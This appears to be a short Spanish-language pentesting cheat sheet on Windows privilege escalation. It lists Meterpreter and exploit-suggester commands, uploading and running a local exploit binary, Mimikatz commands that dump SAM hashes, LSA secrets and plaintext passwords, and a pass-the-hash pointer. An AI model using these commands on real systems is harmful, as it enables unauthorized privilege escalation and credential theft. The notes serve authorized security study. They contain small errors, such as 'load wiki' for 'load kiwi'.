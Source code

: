 # Escalación de Privilegios en Windows

## Descripción
La escalación de privilegios en sistemas Windows es un proceso mediante el cual un atacante busca obtener acceso a niveles superiores de autoridad o control en un sistema comprometido. Esto puede permitir al atacante ejecutar comandos con derechos de administrador u otros niveles de acceso privilegiado.

### Automatizado

```python
getsystem(aveces funciona, es propio de meterpreter)
multi/recon/local_exploit_suggester (previamente una sesion de meterpreter, menciona que exploit podemos usar para elevar privilegios)
```

### Manual

```python
./windows-exploit-suggester.py –update
./windows-exploit-suggester.py –database 2021-12-26-mssb.xls –systeminfo win7.txt (este archivo tiene la info, con meterpreter sacas la info con sysinfo o systeminfo).
en meterprete subimos el exploit que nos dice que podemos usar
upload /downloads/41015.exe
./41015.exe 7 (por que es windows 7)
```


#### DUMP HASH 

```python
Mimikatz: https://github.com/gentilkiwi/mimikatz (volcar hash en un sistema windows)
Tambien viene incorporado en metasploit
load wiki (command meterpreter session)
creds_all 
? (ver todos los comandos utiles de kiwi)
lsa_dump_sam (obtenemos todos los hash)
si usamos la herramienta los comandos son:
privilege::debug (para ver si tenemos permisos '20')
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords (ver si hay password texto claro)

lsa_dump_sam
lsa_dump_secrets
probemos el psexec de metasploit para logearnos con un hash NTLM y también con crackmap
```
